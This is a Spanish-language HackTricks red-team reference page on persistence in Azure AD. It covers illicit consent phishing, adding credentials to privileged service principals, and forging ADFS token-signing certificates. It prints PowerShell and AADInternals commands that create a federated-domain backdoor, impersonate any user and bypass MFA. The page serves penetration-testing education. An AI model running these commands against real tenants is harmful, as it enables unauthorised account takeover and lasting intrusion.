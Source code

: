 # Az - Persistencia

<details>

<summary><strong>Aprende a hackear AWS desde cero hasta convertirte en un experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### Concesión de Consentimiento Ilícito

Por defecto, cualquier usuario puede registrar una aplicación en Azure AD. Por lo tanto, puedes registrar una aplicación (solo para el inquilino objetivo) que requiera permisos de alto impacto con consentimiento de administrador (aprobarlo si eres el administrador) - como enviar correos en nombre de un usuario, gestión de roles, etc. Esto nos permitirá **realizar ataques de phishing** que serían muy **fructíferos** en caso de éxito.

Además, también podrías aceptar esa aplicación con tu usuario como una forma de mantener acceso sobre ella.

### Aplicaciones y Principales de Servicio

Con privilegios de Administrador de Aplicaciones, GA o un rol personalizado con permisos de actualización de credenciales de microsoft.directory/aplicaciones, podemos agregar credenciales (secreto o certificado) a una aplicación existente.

Es posible **apuntar a una aplicación con permisos elevados** o **agregar una nueva aplicación** con permisos elevados.

Un rol interesante para agregar a la aplicación sería el **rol de administrador de autenticación privilegiada** ya que permite **restablecer la contraseña** de los Administradores Globales.

Esta técnica también permite **burlar la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para la autenticación basada en certificados

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federación - Certificado de Firma de Token

Con privilegios de **DA** en AD local, es posible crear e importar **nuevos certificados de firma de token** y **certificados de descifrado de token** que tengan una validez muy larga. Esto nos permitirá **iniciar sesión como cualquier usuario** cuyo ImmutableID conozcamos.

**Ejecute** el siguiente comando como **DA en el servidor(es) ADFS** para crear nuevos certificados (contraseña predeterminada 'AADInternals'), agregarlos a ADFS, deshabilitar el cambio automático y reiniciar el servicio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Luego, actualiza la información del certificado con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federación - Dominio de confianza

Con privilegios de GA en un inquilino, es posible **agregar un nuevo dominio** (debe ser verificado), configurar su tipo de autenticación como Federado y configurar el dominio para **confiar en un certificado específico** (any.sts en el comando a continuación) y emisor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referencias

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud). 

</details>
